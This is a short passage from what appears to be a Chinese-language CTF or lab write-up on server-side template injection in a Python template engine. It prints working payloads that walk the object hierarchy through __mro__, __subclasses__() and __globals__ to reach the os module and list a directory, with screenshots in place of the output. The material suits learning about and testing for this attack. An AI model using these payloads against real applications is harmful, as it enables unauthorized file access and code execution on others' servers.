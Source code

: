 <img src="images/image-20210204234627293.png" alt="image-20210204234627293" style="zoom:67%;" />

- 然后`{{''.__class__.__mro__[2].__subclasses__()}}`：

<img src="images/image-20210204234833494.png" alt="image-20210204234833494" style="zoom:67%;" />

持续不懂中……

- 再然后`{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}`

<img src="images/image-20210204235009549.png" alt="image-20210204235009549" style="zoom:67%;" />